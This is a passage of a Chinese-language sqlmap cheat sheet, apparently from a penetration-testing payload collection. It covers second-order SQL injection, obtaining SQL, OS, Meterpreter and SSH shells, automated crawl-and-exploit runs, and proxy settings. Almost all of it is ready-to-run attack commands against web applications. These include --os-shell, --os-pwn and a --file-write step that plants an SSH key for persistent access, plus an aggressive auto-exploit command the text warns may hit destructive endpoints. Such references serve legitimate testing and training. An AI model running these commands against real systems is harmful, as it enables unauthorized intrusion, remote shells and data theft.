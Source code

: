 二次 SQL 注入发生在恶意的 SQL 代码被注入到应用程序中，但并不立即执行，而是先存储到数据库中，并稍后用于另一个 SQL 查询。

```powershell
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```



## 获取 Shell

* SQL Shell: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell
    ```

* OS Shell: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell
    ```
    
* Meterpreter: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn
    ```

* SSH Shell: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
    ```



## 爬取和自动利用

此方法不建议用于渗透测试；仅应在受控环境或某些比赛中使用。它会爬取整个网站并自动提交表单，这可能导致向敏感功能（如“删除”或“销毁”端点）发送非预期的请求。

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
```

* `--batch` = 非交互模式，通常 Sqlmap 会向你提问，此选项接受默认答案
* `--crawl` = 你想要爬取网站的深度
* `--forms` = 解析并测试表单



## SQLmap 的代理配置

要使用代理运行 SQLmap，你可以使用 `--proxy` 选项后跟代理 URL。SQLmap 支持多种类型的代理，如 HTTP、HTTPS、SOCKS4 和 SOCKS5。

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
sqlmap -u "http://www.target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" --proxy-cred="user:pass"
```
